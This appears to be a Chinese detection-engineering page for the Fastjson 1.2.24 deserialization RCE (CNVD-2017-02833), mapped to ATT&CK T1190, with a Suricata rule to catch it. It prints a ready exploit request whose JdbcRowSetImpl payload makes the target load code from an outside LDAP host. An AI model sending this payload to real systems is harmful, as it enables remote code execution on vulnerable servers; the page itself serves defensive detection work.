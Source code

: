 # T1190-CNVD-2017-02833-fastjson1.2.24远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

fastjson在解析json的过程中,支持使用@type字段来指定反序列化的类型,并调用该类的set/get方法来访问属性,当组件开启了autotype功能并且反序列化不可信数据时,攻击者可以构造数据,使目标应用的代码执行流程进入特定类的特定setter或者getter方法中,即可构造出一些恶意利用链。在Fastjson 1.2.47及以下版本中,利用其缓存机制可实现对未开启autotype功能的绕过。详细的原理分析:<https://www.freebuf.com/vuls/208339.html>

影响版本：Fastjson1.2.24以及之前的所有版本

## 检测日志

HTTP

## 测试复现

具体测试过程请参考：<https://jishuin.proginn.com/p/763bfbd290cf>

```yml
POST / HTTP/1.1
Host: 172.17.41.103:27760
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json;charset=UTF-8
Content-Length: 163

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://172.17.42.24:9999/TouchFile",
        "autoCommit":true
    }
}
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CNVD-2017-02833-fastjson1.2.24远程代码执行漏洞";flow:established,to_server;content:"POST";http_method;content:"com.sun.rowset.JdbcRowSetImpl";http_client_body;reference:url,jishuin.proginn.com/p/763bfbd290cf;classtype:web-application-attck;sid:3002021;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Fastjson‐CNVD‐2017‐02833

<https://jishuin.proginn.com/p/763bfbd290cf>

Fastjson＜1.2.24远程代码执行（CNVD-2017-02833）

<https://blog.csdn.net/weixin_43071873/article/details/109368166>

Fastjson系列漏洞实战和总结

<https://blog.csdn.net/qq_41832837/article/details/109038795>
